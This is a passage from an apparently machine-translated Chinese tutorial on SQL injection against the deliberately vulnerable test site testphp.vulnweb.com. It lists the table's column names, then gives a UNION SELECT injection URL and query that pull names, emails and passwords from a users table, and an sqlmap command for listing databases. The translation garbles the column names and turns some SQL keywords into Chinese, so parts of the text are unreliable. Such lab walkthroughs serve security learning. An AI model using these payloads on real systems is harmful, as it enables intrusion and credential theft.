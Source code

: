 **我得到的列名如下:**

*   **乌梅**
*   **及格**
*   **复写的副本**
*   **地址**
*   **电子邮件**
*   **名字**
*   **电话**

# **5.发现存储在表中的数据**

**要查看用户的名称、电子邮件和密码:**

**[http://testphp.vulnweb.com/listproducts.php?cat=1%20union 从用户中选择所有 1，姓名，3，4，5，6，电子邮件，8，通行证，10，11](http://testphp.vulnweb.com/listproducts.php?cat=1%20union select all 1,name,3,4,5,6,email,8,pass,10,11 from users)**

**相应的 SQL 查询:**

```
SELECT * FROM XYZ_TABLE WHERE CAT=1 union select all 1,name,3,4,5,6,email,8,pass,10,11 from users
```

**![](img/04a1fd5d2d0e3003ee226763047c763b.png)**

# **6.使用 SQLmap 轻松完成上述任务**

**如果我想使用 sqlmap 来做上面的事情，我必须在我的终端上编写 run 下面的命令**

*   **`sqlmap -u “[https//testphp.vulnweb.com/listproducts.php?cat=1](https://testphp.vulnweb.com/listproducts.php?cat=1)" --dbs`获取数据库列表**

**![](img/9cfaead8b1739e7ea5a7c5ee8813a8a1.png)**
